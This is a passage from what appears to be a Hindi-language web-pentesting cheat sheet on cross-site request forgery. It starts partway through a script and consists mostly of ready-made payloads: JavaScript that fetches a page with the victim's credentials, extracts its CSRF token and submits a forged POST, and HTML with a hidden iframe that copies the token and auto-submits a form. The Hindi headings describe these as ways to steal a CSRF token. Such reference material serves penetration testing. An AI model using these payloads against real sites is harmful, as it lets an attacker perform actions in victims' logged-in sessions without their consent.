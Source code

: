 ```javascript
//console.log(xhr.responseText);
}
}

xhr.send("token=" + token + "&otherparama=heyyyy");
}

function getTokenJS() {
var xhr = new XMLHttpRequest();
// This tels it to return it as a HTML document
xhr.responseType = "document";
xhr.withCredentials = true;
// true on the end of here makes the call asynchronous
xhr.open("GET", GET_URL, true);
xhr.onload = function (e) {
if (xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
// Get the document from the response
page = xhr.response
// Get the input element
input = page.getElementById("token");
// Show the token
//console.log("The token is: " + input.value);
// Use the token to submit the form
submitFormWithTokenJS(input.value);
}
};
// Make the request
xhr.send(null);
}

var GET_URL="http://google.com?param=VALUE"
var POST_URL="http://google.com?param=VALUE"
getTokenJS();
```
### **CSRF टोकन चुराएं और iframe, एक फॉर्म और Ajax का उपयोग करके एक पोस्ट अनुरोध भेजें**
```html
<form id="form1" action="http://google.com?param=VALUE" method="post" enctype="multipart/form-data">
<input type="text" name="username" value="AA">
<input type="checkbox" name="status" checked="checked">
<input id="token" type="hidden" name="token" value="" />
</form>

<script type="text/javascript">
function f1(){
x1=document.getElementById("i1");
x1d=(x1.contentWindow||x1.contentDocument);
t=x1d.document.getElementById("token").value;

document.getElementById("token").value=t;
document.getElementById("form1").submit();
}
</script>
<iframe id="i1" style="display:none" src="http://google.com?param=VALUE" onload="javascript:f1();"></iframe>
```
### **CSRF टोकन चुराएं और एक iframe और एक फॉर्म का उपयोग करके POST अनुरोध भेजें**
```html
<iframe id="iframe" src="http://google.com?param=VALUE" width="500" height="500" onload="read()"></iframe>
```